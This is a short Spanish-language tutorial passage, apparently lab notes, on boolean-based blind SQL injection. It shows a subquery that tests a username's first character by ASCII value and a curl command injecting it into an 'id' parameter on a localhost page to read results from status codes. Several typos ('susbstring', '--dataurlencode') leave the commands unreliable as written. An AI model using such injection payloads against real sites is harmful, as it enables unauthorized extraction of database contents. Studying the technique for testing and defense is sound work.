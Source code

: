  Este tipo de inyección SQL utiliza consultas con **expresiones booleanas** para obtener información adicional. Por ejemplo, se puede utilizar una consulta con una expresión booleana para determinar si un usuario existe en una base de datos.
 El trabajo del desarrollador pudo haber impedido que se manipulen los link con el uso de comilla, pero es que no siempre son necesatias las comillas, con el uso de los numeros en valor hexageximal me los van a leer igual
```
select(select ascii(susbstring(username,1,1)) from users where id = 1)=97
```
Obtenemos información del código de estado de la siguiente manera
```
curl -s -I -X GET "http://localhost/searchUsears.php" -G --dataurlencode "id=9 or (select(select ascii(susbstring(username,1,1)) from users where id = 1)=97)"
```
